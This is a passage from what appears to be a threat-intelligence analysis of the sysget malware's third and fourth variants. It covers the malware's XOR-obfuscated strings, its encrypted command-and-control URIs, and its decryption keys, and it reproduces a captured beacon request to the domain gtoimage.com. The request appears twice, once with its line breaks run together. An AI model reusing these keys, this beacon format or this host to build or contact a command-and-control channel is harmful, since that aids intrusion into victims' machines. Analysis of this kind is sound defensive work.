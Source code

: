 



After installation, sysget will attempt to read the same %APPDATA%/vklCen5.tmp file as witnessed in the previous variant. A number of strings within the malware, including the ‘734thfg9ih’ key used to encrypt this file, have been obfuscated via a single-byte XOR of 0x5F.
Similar to previous versions, should this vklCen5.tmp file not be present on the victim machine, it will make an external HTTP request to retrieve the necessary information. The following request is made by the malware. Readers will notice that the URI has changed from previous versions in a number of ways. This version of sysget looks to always make requests to 1.php, which is hardcoded within the malware itself. Additionally, all HTTP URIs in this version of sysget are encrypted. The initial GET request made to retrieve the victim identifier and unique key is encrypted with a key of ‘Cra%hello-12sW’. The subsequent response containing this information is then decrypted using a key of ‘aliado75496’, which is consistent with previous versions.





GET 
/1.php?K+50lkzq7OtigRtWY7Z5DwkmxRhFd5n3UXyH+Flfa0S8f5h3nl6XBDMa6a3IbDiPQqW
SwZh7lQRmIPLlC8Wmfr8cGv7raGEV160r73FJjnOfyJPLEKWAIyJnfPZhHdGapA6tfwfwj24TN
4QbBrMJkVCLPPZoI4HNtdDEo6G3ujjyvkpWnGQnRBi6DzylNrMypV/K6Ft32dsMmmO52q4IdQ== HTTP/1.1
Connection: Keep-Alive
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like 
Gecko) Chrome/40.0.2214.115 Safari/537.36
Host: gtoimage.com




12345678

GET /1.php?K+50lkzq7OtigRtWY7Z5DwkmxRhFd5n3UXyH+Flfa0S8f5h3nl6XBDMa6a3IbDiPQqWSwZh7lQRmIPLlC8Wmfr8cGv7raGEV160r73FJjnOfyJPLEKWAIyJnfPZhHdGapA6tfwfwj24TN4QbBrMJkVCLPPZoI4HNtdDEo6G3ujjyvkpWnGQnRBi6DzylNrMypV/K6Ft32dsMmmO52q4IdQ== HTTP/1.1Connection: Keep-AliveUser-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.115 Safari/537.36Host: gtoimage.com





When the URI above is base64-decoded and subsequently decrypted, we see the following:
index.php?type=read&id=692fdc3c7b2c310fc017e4af335b8dc8&pageinfo=jp&lang=utf-8
This URI is consistent with the previous sysget variant. It would seem the authors simply have added this layer of encryption to hinder efforts to block the malware via network-based detections.
After this initial request to retrieve the victim identifier and unique key, sysget enters its command and control loop. This process is consistent with the previous version, but simply has the extra layer of encryption used for the URIs.
Sysget v4 Analysis
The fourth variant of sysget is nearly identical to the third variant. However, the main difference lies in the URIs used for network communication. In addition to the expected encryption of the URIs, this variant also mangles the base64 encoding that is performed afterwards. The following Python script may be used to de-obfuscate the base64 URI found in this variant:





import base64
